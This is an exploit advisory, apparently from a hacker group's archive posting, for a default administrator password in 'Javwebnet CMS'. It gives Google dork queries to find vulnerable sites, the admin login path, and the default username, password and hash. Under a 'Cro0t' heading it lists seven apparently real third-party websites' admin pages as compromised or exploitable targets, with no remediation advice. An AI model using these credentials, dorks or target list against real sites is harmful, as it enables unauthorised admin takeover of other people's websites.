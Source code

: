 # Javwebnet-CMS-Default-Password-Vulnerability

* Google Dork
	intext:"web design by javwebnet"
	inurl:"admin/chace.php"
	intitle:"Explore Your Brain ! \m/ Google sek ngaceng!"
+ Date                 : 05/01/2014
+ Exploit Author       : BarrabravaZ
+ Vendor Homepage      : http://www.javwebnet.com/
+ Version              : 1.0
+ Tested on            : Windows, Linux
+ Surabaya Blackhat "Learn to be Better"
+ 
++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++

xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
«««:»»»          Author will be not responsible for any damage.          «««:»»»
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
x
x Issue: 
x Default Password Admin
x 
x Risk level: High
x ~ The remote attacker has the possibility to manage the website. ~
x ~ The remote attacker is able to login into website with access level as admin. ~
x 
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx

[!]###########################################################################[!]
##
## Proof Of Concept:
## http://127.0.0.1/admin/
##
## Username : admin
## Password : 17t17n25a (md5: 3445c774b86384665a5315b30f8a6735)
##
## Cro0t ##
## http://www.nomorsejagad.com/admin
## http://www.decalartworks.com/admin
## http://www.perdanajakarta.com/admin
## http://www.bangkitperdana.com/admin
## http://www.kecapborobudur.com/admin
## http://www.maulidaperdana.com/admin
## http://www.istanabajutidur.com/admin
##
[!]###########################################################################[!]

xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
[ Thx TO ]
[+] Meninbox wong ganteng unyu2 :D 
[+] Katon --> Was here
[+] Zeeattacker aku njal0k oleh2 teko bangkok yo cok :v
[+] Bagfreakz aKa paijo painem hahaha
[+] Gandrunx --> master koding ,ajarin doong kakak..
[+] Ch0c0 terhumanisasi
[+] MyWisdom kakak paling cakep :*
[+] Array --> Mboh wong iki geje nick'e array wkwkwk
[+] Surabayag3tar guruku ('/\')
[+] Mr. DC bang jali :D
[+] Dem1t,Bejat,Morgue,OmJin..
[+] Siti Jubaidah,X'inject,R1O,Angel DOt ID...
[+] Haxor HuSsY, Hax0r W0w, Leet Hax0r,Kami Hax0r...
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
[++] SurabayaBlackhat [++] Madleets [++] IFC [++] Hiddenc0de [++] devilzc0de [++]
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx